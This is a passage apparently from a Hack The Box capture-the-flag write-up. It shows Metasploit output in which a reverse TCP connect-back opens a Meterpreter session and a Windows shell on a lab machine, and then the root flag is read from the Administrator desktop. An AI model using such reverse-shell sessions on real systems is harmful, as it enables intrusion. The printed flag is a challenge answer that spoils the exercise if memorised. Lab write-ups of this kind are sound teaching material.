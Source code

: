 Finally, we received a connect-back and we retrieved the root flag:

```bash
[*] Started reverse TCP handler on 10.10.14.65:8383 
[*] Sending stage (200262 bytes) to 10.129.120.163
[*] Meterpreter session 1 opened (10.10.14.65:8383 -> 10.129.120.163:49683) at 2021-07-27 02:46:02 +0200

meterpreter > shell
Process 3296 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:/Users/Administrator/Desktop
cd C:/Users/Administrator/Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
HTB{K33P_V1rTu4L_EY3_ON_PA7H5_S1R}
```
